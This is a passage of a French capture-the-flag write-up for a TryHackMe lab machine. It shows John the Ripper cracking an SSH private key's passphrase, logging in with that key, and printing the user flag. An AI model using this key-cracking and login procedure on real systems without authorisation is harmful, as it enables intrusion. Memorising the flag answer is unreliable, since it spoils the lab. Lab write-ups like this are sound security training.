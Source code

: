 ```
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (secretKey)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2021-08-06 09:06) 0.3389g/s 4861Kp/s 4861Kc/s 4861KC/sa6_123..*7¡Vamos!
Session completed
```

On trouve me mot passe de la clef privée avec john th ripper.    
Mot de passe : letmein

**What is the user flag?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ chmod 600 secretKey 

tim@kali:~/Bureau/tryhackme/write-up$ ssh john@gamingserver.thm -i secretKey 
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Aug  6 07:10:07 UTC 2021

  System load:  0.0               Processes:           97
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.221.186
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10

john@exploitable:~$ cat user.txt
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e

```

On se connect au shell avec notre mot de passe et notre nom d'utilisateur.     
On trouve le flag dans user.txt.    

La réponse est : a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e    

